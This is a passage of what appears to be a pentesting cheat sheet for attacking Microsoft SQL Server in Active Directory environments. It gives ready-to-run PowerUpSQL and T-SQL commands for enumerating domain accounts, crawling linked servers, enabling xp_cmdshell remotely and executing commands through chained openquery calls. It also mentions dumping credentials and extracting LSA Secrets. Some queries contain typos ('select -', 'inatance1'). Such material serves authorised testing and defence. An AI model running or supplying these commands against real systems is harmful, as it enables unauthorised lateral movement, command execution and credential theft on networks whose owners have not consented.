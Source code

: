 **Extracting service account credentials from LSA Secrets and/or memory**

**Token Impersonation for the SQL Server service**

**Single user mode**

## Lateral Movement

### Domain User accounts

- SQL server allows Domain user logins (it a part of the domain trust)
- Once domain user access is present, enumerate privileges it has on SQL servers in the domain
- After gaining shell access to the user (command execution) following can be done:
  - Check if current user has access to SQL Servers in domain: `Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose`
  - For alternative credentials: `runas /noprofile /netonly /user:<domain\username> powershell.exe`
  - A user with `public` access can be used to enumerate domain accounts and groups in the forest and other trusted forests: `Get-SQLFuzzDomainAccount -Instance instance -StartId 500 -EndId 2000 -Verbose`
- If local admin rights are present, dump credentials.
- References:
  - <https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/>

### Database Links

- Allows a SQL Server to access external data sources (SQL Servers, OLE DB)
- If SQL Servers are linked:
  - Can execute stored procedures
  - Work across SQL server versions and forests
- References:
  - <https://docs.microsoft.com/en-us/sql/relational-databases/linked-servers/linked-servers-database-engine>
  - <http://www.labofapenetrationtester.com/2017/03/using-sql-server-for-attacking-forest-trust.html>
- Search for linked databases: `select - from master..sysservers` `Get-SQLServerLink -Instance instance -Verbose`
- Run queries on linked databases: `select - from openquery("instance",'select - frommaster..sysservers')`
- Run queries on chain of linked databases:
    ```sql
    select - from openquery("inatance1",'select - from openquery("instance2",''select - from master..sysservers'')')
    ```
    ```powershell
    Get-SQLServerLinkCrawl -Instance instance1 -Verbose
    ```
- If `rpcout` is enabled for all links (disabled by default), `xp_cmdshell` can be enabled using:
    ```sql
    EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "instance2")
    ```
- Command execution with linked databases:
    ```sql
    select - from openquery("instance1",'select - from
    openquery("instance2",''select - from openquery("instance3",''''select @@version as version;exec master..xp_cmdshell "cmd /c calc.exe"'''')'')')
    ```
    ```powershell
    Get-SQLServerLinkCrawl -Instance instance1 -Query "exec master..xp_cmdshell 'cmd /c calc.exe'"-Verbose
    ```
- Decrypting Database Link Server Passwords: <https://blog.netspi.com/decrypting-mssql-database-link-server-passwords/>
